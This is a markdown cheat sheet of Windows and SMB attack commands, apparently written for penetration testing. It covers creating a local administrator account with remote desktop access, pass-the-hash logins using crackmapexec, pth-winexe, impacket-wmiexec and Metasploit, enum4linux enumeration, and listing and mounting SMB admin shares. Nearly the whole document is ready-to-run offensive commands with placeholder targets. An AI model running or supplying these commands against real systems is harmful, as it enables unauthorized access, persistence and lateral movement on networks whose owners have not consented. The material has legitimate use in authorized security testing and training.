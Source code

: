 #### account management
-----
*add new user*

```net user <username> <password> /add```

*add <username> to local administrators group*

```net localgroup administrators <username> /add```

*add <username> to remote desktop users group*

```net localgroup "Remote Desktop Users" <username> /add```

*start remote desktop*

```net start TermService```


#### pass the hash
-----
```crackmapexec 10.11.0.1/24 -u <username> -H <HASH_TO_PASS>```

```pth-winexe -U DOMAIN/USERNAME%HASH //target.lab cmd.exe

```impacket-wmiexec -hashes :somehashhere someone@target.lab```

```metasploit module "auxiliary/smb_login"```


#### enum4linux
-----
*query password policy*

```enum4linux -P x.x.x.x```

*enumerate everything*

```enum4linux -a x.x.x.x```


#### smbclient
-----
*show available shares*

```smbclient -L x.x.x.x```

*interact with share*

```smbclient \\\\somewhere\\public -U <username>```


#### smbmount
-----
```mkdir /mnt/someshare```

```smbmount //winpc/shared /mnt/someshare -o username=user,password=pass,rw```

```smbmount //winpc/shared /mnt/ssomeshare -o rw  (no user + pass)```

```mount -t smbfs -o username=<username> \\\\x.x.x.x\\c$ /mnt/example```

```smbmount \\\\x.x.x.x\\c$ /mnt/example -o username=<username>```




